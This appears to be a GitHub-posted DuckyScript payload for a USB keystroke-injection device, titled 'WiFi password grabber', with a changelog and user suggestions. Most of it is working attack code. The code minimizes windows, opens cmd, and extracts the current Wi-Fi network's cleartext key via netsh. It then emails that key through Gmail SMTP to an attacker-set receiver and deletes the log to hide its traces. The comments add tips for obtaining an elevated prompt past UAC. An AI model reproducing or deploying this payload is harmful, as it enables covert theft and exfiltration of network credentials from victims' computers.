 REM ### Change the following things;
REM * **ACCOUNT**: Your **gmail account**
REM * **PASSWORD**: Your **gmail password**
REM * **RECEIVER**: The email you want to send the content of Log.txt to
REM 
```
REM Title: WiFi password grabber
REM Author: Siem
REM Version: 4
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt and emails the contents of Log.txt from a gmail account.
DELAY 3000
REM --> Minimize all windows
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 200
REM --> Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=:" %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER
STRING set A="%A:~1%"
ENTER
REM --> Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER
REM --> Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER
REM --> Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER
REM --> Get password
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER
REM --> Delete A.txt
STRING del A.txt
ENTER
REM --> Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER
REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 500
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```

REM ### Change log;
REM 1. Original
REM 2. Bug fixes and narrowed commands
REM 3. Send contents of Log.txt instead the file itself
REM 4. Removed the space as delimiter
REM 5. Added the STRING set A="%A:~1%" to be able to use SSID's with spaces as well
REM 
REM ### Suggestions;
REM **If you have any suggestions, write them down here.**
REM 
REM - For me i needed to add a DELAY 50 betwin the powershell exit and the cmd exit.. (But i'm on an Arduino Mini with a special compiler)
REM - If the wifi ssid has a space like "TPLINK HOME" then A would be set to "TPLINK" and get error "Profile "TPLINK" is not found on the system" -- FIXED
REM - Added the delay after sending the SMTP message, to make sure the EXIT and DEL log.txt are executed (I had issues with this)
REM 
REM The cmd prompt must be elevated to get any passwords.  If you change from using the WINDOWS r to using the search menu for "cmd" and pressing ctrl+shift+enter you can get a UAC prompt.  From there you'd need to alt+Y to get the elevated prompt.
REM 
REM You can also use the run box but with the following command in Win7 and later:
REM powershell Start-Process cmd -Verb runAs
